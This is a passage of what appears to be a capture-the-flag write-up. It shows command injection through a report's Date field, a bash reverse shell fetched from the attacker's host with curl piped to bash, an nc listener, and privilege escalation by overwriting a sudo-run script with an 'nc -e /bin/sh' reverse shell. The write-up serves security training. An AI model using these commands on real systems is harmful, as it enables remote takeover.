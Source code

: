 we immediately notice that the page has a Date field, that takes a user input, that would be a great place to start
we will now make a payload that will be loaded onto the server by making the page request this file, the payload will be as follows:
```bash
$ cat payload.sh
/bin/bash -c 'exec bash -i >& /dev/tcp/{YOUR IP}/{SHELL PORT} 0>&1'
```
This payload basically allows us to run a remote shell on the specified "SHELL PORT" over net to the specified "IP ADDRESS".

The payload will be loaded onto the server by requesting the file on a http server on our machine, we will do this by making sure that the payload is available on the same directory that the running http server is on, such that the payload will be available on *http://{YOUR IP}:{PORT}/payload.sh* we will also be running a **listener** on the mentioned "SHELL PORT" in the payload.

The listener can be made using Netcat which is a linux utility tool that allows the user to either read or write on the network, you can read more about <a href="https://www.geeksforgeeks.org/introduction-to-netcat/" target="_blank" rel="noopener">Netcat here</a>.
```bash
sudo nc -lvnp {SHELL PORT}
```

Now we head onto burp, turn ON the intercept and hit "Generate Report" on the dashboard.
with the date field, we will add the following code in order to be able to upload the shell and execute it on the target machine:
```js
date=2024-09-05;curl http://{YOUR IP}:{PORT}/payload.sh|bash
```

And VOILA! we have access to the shell of the target machine!
Now all we need to do is to go hunting in the directories to find the different files, and the **User Flag** ofcourse!

### Privilege Escalation
<hr>

We just got the user flag for this machine, but we are yet to find the root flag, obviously the root flag will be hidden in some directory that is only accessible to the root user, which we are not, hence we have perform privilege escalation in order to be able to run commands as root!

quickly in order to enumerate our target, lets find out all the available commands that the current user is capable of running!
```bash
sudo -l
```

in the output of the above command we notice that the user is allowed to run the file */usr/bin/syscheck* without providing PASSWORD!
lets find out what exactly is this "syscheck", we can read the contents of the file using the "cat" command.
```bash
cat /usr/bin/syscheck
```

After reading through the code we notice that there is a file called "initdb.sh" that runs when the syscheck file is run, we can attack this!
let's create another reverse shell payload by using the echo command:
```bash
echo "nc -e /bin/sh {YOUR IP} {SHELL PORT}" > initdb.sh
```
